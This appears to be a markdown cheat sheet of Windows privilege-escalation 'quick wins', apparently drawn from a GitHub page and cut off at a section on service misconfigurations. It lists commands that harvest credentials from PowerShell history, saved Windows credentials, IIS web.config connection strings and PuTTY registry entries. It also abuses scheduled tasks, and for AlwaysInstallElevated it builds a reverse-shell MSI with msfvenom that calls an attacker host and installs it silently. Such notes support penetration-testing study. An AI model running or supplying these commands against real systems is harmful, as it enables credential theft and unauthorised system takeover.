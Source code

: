 ### Powershell History

command: 
```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
```powershell
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### Saved Windows Credentials

```cmd
cmdkey /list

runas /savecred /user:admin cmd.exe
```

### IIS Configuration
```shell
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString #a quick way to find database connection strings
```
### Retrieve Credentials from Software: PuTTY 
```shell
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

>note: Other software have methods to recover any passwords the user has saved  

##  Other Quick Wins 
### Scheduled Tasks  

command: [explain](https://chat.openai.com/share/099635af-3639-4c36-bead-1015aa2439c3)
```bash
schtasks 
schtasks /query /tn vulntask /fo list /v 

icacls c:\tasks\schtask.bat #check the file permissions on the executable 

 schtasks /run /tn vulntask #manually run task, experimental purpose
```
### AlwaysInstallElevated 
command: 
```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer  #query 1
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer #query 2

msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_10.10.109.20 LPORT=LOCAL_PORT -f msi -o malicious.msi

 msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```
###  Abusing Service Misconfigurations
#### Windows Services
command:  
```bash
sc qc apphostsvc

```